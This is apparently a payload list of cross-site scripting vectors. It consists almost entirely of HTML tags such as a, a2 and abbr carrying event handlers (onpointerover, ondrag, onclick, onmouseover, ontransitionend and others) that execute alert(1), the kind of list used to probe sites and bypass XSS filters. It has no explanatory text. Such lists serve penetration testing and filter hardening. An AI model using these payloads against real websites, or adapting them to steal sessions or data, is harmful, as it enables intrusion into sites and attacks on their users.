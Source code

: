 <a onpointerover=alert(1) style=display:block>XSS</a>
<a onpointerrawupdate=alert(1) style=display:block>XSS</a>
<a onpointerup=alert(1) style=display:block>XSS</a>
<a2 draggable="true" ondrag="alert(1)" style=display:block>test</a2>
<a2 draggable="true" ondragend="alert(1)" style=display:block>test</a2>
<a2 draggable="true" ondragenter="alert(1)" style=display:block>test</a2>
<a2 draggable="true" ondragleave="alert(1)" style=display:block>test</a2>
<a2 draggable="true" ondragstart="alert(1)" style=display:block>test</a2>
<a2 id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></a2>
<a2 onafterscriptexecute=alert(1)><script>1</script>
<a2 onbeforescriptexecute=alert(1)><script>1</script>
<a2 onblur=alert(1) id=x tabindex=1 style=display:block>test</a2><input value=clickme>
<a2 onclick="alert(1)" style=display:block>test</a2>
<a2 oncontextmenu="alert(1)" style=display:block>test</a2>
<a2 oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<a2 oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<a2 ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</a2>
<a2 onfocusout=alert(1) id=x tabindex=1 style=display:block>test</a2><input value=clickme>
<a2 onkeydown="alert(1)" contenteditable style=display:block>test</a2>
<a2 onkeypress="alert(1)" contenteditable style=display:block>test</a2>
<a2 onkeyup="alert(1)" contenteditable style=display:block>test</a2>
<a2 onmousedown="alert(1)" style=display:block>test</a2>
<a2 onmouseenter="alert(1)" style=display:block>test</a2>
<a2 onmouseleave="alert(1)" style=display:block>test</a2>
<a2 onmousemove="alert(1)" style=display:block>test</a2>
<a2 onmouseout="alert(1)" style=display:block>test</a2>
<a2 onmouseover="alert(1)" style=display:block>test</a2>
<a2 onmouseup="alert(1)" style=display:block>test</a2>
<a2 onmousewheel=alert(1) style=display:block>requires scrolling
<a2 onpointerdown=alert(1) style=display:block>XSS</a2>
<a2 onpointerenter=alert(1) style=display:block>XSS</a2>
<a2 onpointerleave=alert(1) style=display:block>XSS</a2>
<a2 onpointermove=alert(1) style=display:block>XSS</a2>
<a2 onpointerout=alert(1) style=display:block>XSS</a2>
<a2 onpointerover=alert(1) style=display:block>XSS</a2>
<a2 onpointerrawupdate=alert(1) style=display:block>XSS</a2>
<a2 onpointerup=alert(1) style=display:block>XSS</a2>
<abbr draggable="true" ondrag="alert(1)" style=display:block>test</abbr>
<abbr draggable="true" ondragend="alert(1)" style=display:block>test</abbr>
<abbr draggable="true" ondragenter="alert(1)" style=display:block>test</abbr>
<abbr draggable="true" ondragleave="alert(1)" style=display:block>test</abbr>
<abbr draggable="true" ondragstart="alert(1)" style=display:block>test</abbr>
<abbr id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></abbr>
<abbr id=x tabindex=1 onfocus=alert(1)></abbr>
<abbr id=x tabindex=1 onfocusin=alert(1)></abbr>
<abbr onafterscriptexecute=alert(1)><script>1</script>
<abbr onbeforecopy="alert(1)" contenteditable>test</abbr>
<abbr onbeforecut="alert(1)" contenteditable>test</abbr>
<abbr onbeforescriptexecute=alert(1)><script>1</script>
<abbr onblur=alert(1) id=x tabindex=1 style=display:block>test</abbr><input value=clickme>
<abbr onclick="alert(1)" style=display:block>test</abbr>
<abbr oncontextmenu="alert(1)" style=display:block>test</abbr>
<abbr oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<abbr oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<abbr ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</abbr>
<abbr onfocusout=alert(1) id=x tabindex=1 style=display:block>test</abbr><input value=clickme>
<abbr onkeydown="alert(1)" contenteditable style=display:block>test</abbr>
<abbr onkeypress="alert(1)" contenteditable style=display:block>test</abbr>
<abbr onkeyup="alert(1)" contenteditable style=display:block>test</abbr>
<abbr onmousedown="alert(1)" style=display:block>test</abbr>
<abbr onmouseenter="alert(1)" style=display:block>test</abbr>
<abbr onmouseleave="alert(1)" style=display:block>test</abbr>
<abbr onmousemove="alert(1)" style=display:block>test</abbr>
<abbr onmouseout="alert(1)" style=display:block>test</abbr>